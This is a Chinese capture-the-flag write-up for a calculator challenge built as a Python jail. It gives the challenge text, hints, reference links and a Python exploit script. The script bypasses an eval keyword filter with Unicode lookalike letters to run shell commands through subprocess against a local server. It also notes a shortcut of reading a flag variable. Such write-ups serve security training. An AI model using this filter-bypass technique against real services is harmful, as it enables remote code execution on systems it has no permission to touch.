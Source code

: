 # Tongji/同济 MH-12地摊神器摆摊计算器办公文具用品财务用银行用人事用会计学生商务送礼太阳能计算器

## 题面

by *Nemo*

TongjiCTF 组委会很自豪地在 [TongjiWIZ fx-991CN X](https://github.com/Cat-Training-Force/Tongji-CTF-2023/tree/main/Misc/%E5%A4%A9%E7%8B%97%E7%9A%84%E8%AE%A1%E7%AE%97%E5%99%A8) 之后给你带来他们的全新力作：Tongji/同济 MH-12地摊神器摆摊计算器办公文具用品财务用银行用人事用会计学生商务送礼太阳能计算器！我们保留了它的精髓，那就是：

归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零

提示 1：记得看附件

提示 2：没给它分到 Web 是有理由的

## 思路

[PEP](https://peps.python.org/pep-0672/) [谷歌应该能查到的东西](https://github.com/salvatore-abello/python-ctf-cheatsheet/blob/main/pyjails/how-to-solve-a-pyjail.md) [Python Documentation](https://docs.python.org/3/howto/unicode.html)

所以你只要用 Unicode 去绕就完事了。

写一个 eval 的 payload，然后用 Unicode 替换掉 eval 就行了。

## Exploit

```python
import requests

def main():
    url = 'http://localhost:1338/'
    while True:
        expression = input('expression? > ')
        if expression == 'exit':
            break
        if expression == 'exp':
            base = '__import__("subprocess").check_output("ls", shell=True)'
            base_chr_int = [ord(i) for i in base]
            # expression = r'𝓮𝓿𝓪𝓵(𝕔𝕙𝕣(105) + 𝕔𝕙𝕣(109) + 𝕔𝕙𝕣(112) + 𝕔𝕙𝕣(111) + 𝕔𝕙𝕣(114) + 𝕔𝕙𝕣(116) + 𝕔𝕙𝕣(32) + 𝕔𝕙𝕣(111) + 𝕔𝕙𝕣(115));𝓰𝓮𝓽𝓪𝓽𝓽𝓻(𝐨𝐬, 𝕔𝕙𝕣(115) + 𝕔𝕙𝕣(121) + 𝕔𝕙𝕣(115) + 𝕔𝕙𝕣(116) + 𝕔𝕙𝕣(101) + 𝕔𝕙𝕣(109))(𝕔𝕙𝕣(108) + 𝕔𝕙𝕣(115))'
            expression = f'𝓮𝓿𝓪𝓵({"+".join([f"𝕔𝕙𝕣({i})" for i in base_chr_int])})'
        data = {'expression': expression}
        r = requests.post(url + 'calc', json=data)
        print(r.json()["result"])
        
if __name__ == '__main__':
    main()
```

Unintended solution:

里面有个 `new_flag` 变量，直接读那个就行。算是减小了一点难度（大概）？


